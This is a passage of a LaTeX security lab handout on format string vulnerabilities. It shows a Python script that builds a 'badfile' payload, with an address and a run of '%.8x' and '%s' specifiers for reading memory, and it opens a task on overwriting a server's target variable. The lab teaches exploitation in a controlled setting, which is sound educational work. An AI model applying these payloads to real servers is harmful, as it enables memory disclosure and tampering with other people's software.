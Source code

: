 \paragraph{Python code.} Because the format string that 
we need to construct may be quite long, it is more convenient 
to write a Python program to do the construction. The 
following sample code shows how to construct 
a string that contains binary numbers. 


\begin{lstlisting}[label=format:code:exploit, caption={Sample code 
\texttt{build\_string.py} (can be downloaded from the lab's website)}]
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store an integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%s"
s = "%.8x"*12 + "%s" 

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
\end{lstlisting}
 



\subsection{Task 5: Change the Server Program's Memory}

The objective of this task is to modify the value of the 
\texttt{target} variable that is defined in the server program.
Its original value is \texttt{0x11223344}.  
Assume that this variable holds an important value, which can affect the 
control flow of the program. If remote attackers can change its value, 
they can change the behavior of this program. We have three sub-tasks. 



